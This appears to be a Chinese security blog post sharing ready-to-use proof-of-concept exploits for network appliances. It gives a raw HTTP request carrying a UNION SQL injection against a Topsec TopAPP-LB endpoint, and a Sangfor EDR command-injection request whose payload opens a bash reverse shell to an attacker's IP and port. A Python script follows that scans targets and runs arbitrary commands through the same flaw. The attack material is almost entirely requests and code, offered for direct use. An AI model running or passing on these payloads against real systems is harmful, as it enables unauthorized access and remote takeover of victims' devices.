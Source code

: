 ![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x02 天融信 TopAPP-LB SQL 注入

    直接上 POC  

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: host
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, \*/\*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
Content-Type: application/x-www-form-urlencoded
Content-Length: 201
t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r\_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。

```

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x03 深信服 EDR RCE 漏洞

    又是深信服的 EDR，太惨了  

```
POST /api/edr/sangforinter/v2/cssp/slog\_client?token=eyJtZDUiOnRydWV9 HTTP/1.1
Host: xx.x.x.x
Connection: close
Accept-Encoding: gzip, deflate
Accept: \*/\*
User-Agent: python-requests/2.22.0
Content-Length: 77
{"params": "w=123\\"'1234123'\\"|bash -i >& /dev/tcp/ip/port 0>&1"}

```

    这里附上脚本 POC，若需完整 POC 请关注微信公众号，并**回复 “EDR RCE”**  

```
def poc(u,\*\*attack):
    print("\[\*\] Checking %s"%(u))
    uri = "/api/edr/sangforinter/v2/cssp/slog\_client?token=eyJtZDUiOnRydWV9"
    url = u+uri
    if not attack:
        data={"params":"w=123\\"'1234123'\\"|echo aaabbbccc00aa"}
    else:
        if attack\['flag'\]:
            data={"params":"w=123\\"'1234123'\\"|{}".format(attack\['cmd'\])}
    try:
        res = requests.post(url,data=json.dumps(data),verify=False,timeout=timeout)
        data = json.loads(res.content)
        if (data\["code"\] == 0) or (data\["code"\] == 1116):
            print("\[\*\] %s is vulnerabile !"%(u))
            if attack and (data\["code"\] == 0):
                for d in data\["data"\]:
                    print(d)
```